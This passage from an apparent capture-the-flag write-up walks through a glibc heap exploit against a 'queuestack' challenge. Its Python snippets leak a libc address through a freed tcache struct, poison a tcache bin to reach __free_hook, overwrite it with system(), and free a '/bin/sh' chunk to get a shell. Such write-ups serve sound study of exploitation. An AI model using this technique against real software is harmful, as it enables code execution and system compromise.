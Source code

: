 ~~~python
    qstack2 = heap_base + 0x350
    pushright(4, p64(qstack2 | padding))
    #now free qstack2:
    popright(4)
    #free prethread_tcache_struct:
    popleft(2)
~~~
prethread_tcache_struct has been freed and is now in the unsorted bin. A pointer to prethread_tcache_struct is still in queuestack 2, so we can read it and get a libc leak
~~~python
    examine(2, 2)
    libc_base = u64(sock.recv()[0:6] + bytes.fromhex("0000")) - 0x1ECBE0
~~~

### The final stretch: writing to __free_hook

Consider the implications of adding one of the `cards` arrays to the free list. The first 8 bytes (or the first slot) of the array will be treated as the `next' pointer.
We can still write chunks to that slot because the `cards` array is linked to the `Queuestack` struct for queuestack 2, even after the array has been freed. As part of clearing out
the tcache bin to get a pointer to the `cards` array, we allocated a chunk in the first slot of queuestack 2:
~~~python
    pushleft(2, p64((heap_base +0x80) | padding))
~~~ 
That chunk will now be linked on the free list, and as such the pointer that is in its first 8 bytes will also be linked onto the free list. We set the first 8 bytes of this chunk
to the tcache entry for the 0x20 bin in prethread_tcache_struct so that after we free prethread_tcache_struct, we'll be able to write to the tcache entry. <br>
The head(or first chunk) of each tcache bin is stored in prethread_tcache_struct. When a program requests a chunk that has a size that places it in a tcache bin, glibc checks if that
tcache bin is empty. If it isn't, glibc returns the first chunk in that tcache bin to satisfy the request. Therefore, we can get a pointer to an arbitrary location by
overwrite the head of a tcache bin in prethread_tcache_struct. We want to overwrite __free_hook, so we'll overwrite the head to the address of __free_hook. Before that, there is still one chunk
on the free list before prethread_tcache_struct, so we'll allocate an extra chunk to move prethread_tcache_struct to the front of the free list.
~~~python
    #alloc until we get to tcache_prethread_struct then write free_hook
    pushleft(4, "/bin/sh")
    free_hook = libc_base + 0x1eee48
    #write free_hook:
    pushright(2, p64(free_hook | padding))
~~~
After that we'll alloc another chunk and write the address of system to __free_hook.
~~~python
    #write system to free_hook:
    system = libc_base + 0x52290
    pushright(2, p64(system | padding))
~~~
We previously allocated a chunk at the head of queuestack 4 and stored the string "/bin/sh" in it. If we call `free()` on that chunk then we'll get a shell.
~~~python
    #call free on /bin/sh:
    popleft(4)
    sock.interactive()
~~~
